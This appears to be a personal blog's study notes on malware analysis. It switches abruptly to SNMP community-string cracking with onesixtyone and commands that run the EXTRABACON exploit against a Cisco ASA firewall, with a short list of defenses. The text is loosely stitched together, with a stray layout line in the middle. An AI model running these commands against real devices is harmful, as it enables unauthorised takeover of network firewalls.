 ```yaml
---
layout: post
title: Malware Analysis - Part 1
subtitle: Overview and Notes
cover-img: /assets/img/path.jpg
tags: [Malware Analysis, Revese Engineering, Security]
---
```


#### Background on Malware Analysis 

As a malware researcher, a significant part of our research process is dedicated to reversing cryptographic algorithms for extracting the decrypted content. Revealing this content provides an access to the core parts of the malware which includes but not limited to -

```
Strings
Windows API calls
DGA Algorithms
Communication protocols
Financial malware – Includes the list of targeted institutions and webinjects.
```
 cover-img: /assets/img/MA.jpg

Steps-
* Get SNMP IP from Wireshark 
* Use snmpcheck -t IP

**Cracking SNMP community strings( if not set to "public")**

	kali > onesixtyone 192.168.1.102 -c /usr/share/doc/onesixtyone/dict.txt
	  
	  
#### Zero Day :[NSA Exploit in CISCO ASA]( https://www.hackers-arise.com/post/2016/08/22/the-extrabacon-zero-day-exploit-on-cisco-asa-firewalls)

According to Cisco, this EXTRABACON exploit enables  attackers within the network and with the SNMP community string to execute code remotely on their firewalls. In essence, the appliance designed to protect our network is compromised making the entire network unsafe. Like so many other pieces of remote code execution malware, EXTRABACON takes advantage of a buffer overflow in the code of the affected device

This exploit requires;
1. SNMP be enabled on the device
2. Knowledge of the community string in any version of SNMP (v1,v2,v3)
3. an attack with IPv4 packets only
4. Access to a system residing on the interface to the firewall

Note : The EXTRABACON exploit is a python script that you can [download here](https://github.com/blahdidbert/extrabacon).

**Using Extrabacon:**
		
	kali > ./extrabacon info -t 192.168.1.101 -c hackers-arise
		This will return a file that we need in exec mode of EXTRABACON. Here, I have named that file OTW
	kali > ./extrabacon_1.1.0.1.py exec -k OTW -t 192.168.1.101 -c hackers-arise --mode pass-enable
		When the exploit is successful, it will execute the shellcode on the Cisco ASA firewall, giving the attacker complete control!
		  
		  
#### Defenses
Until Cisco releases a patch for this exploit, there are two best defenses you can apply for the time being-
1. Make your SNMP community string long and complex
2. Disable SNMP on the vulnerable device (no snmp-server enable)

Reverse Engineering 101 - [Link](https://malwareunicorn.org/workshops/re101.html#0)
Hands-on Challenges - [Reference](http://flare-on.com/)   
How to become a Malware Analyst Guide - [Medium link](https://medium.com/@bit.malware/how-to-become-a-malware-analyst-ac8bc5ddc8f7)

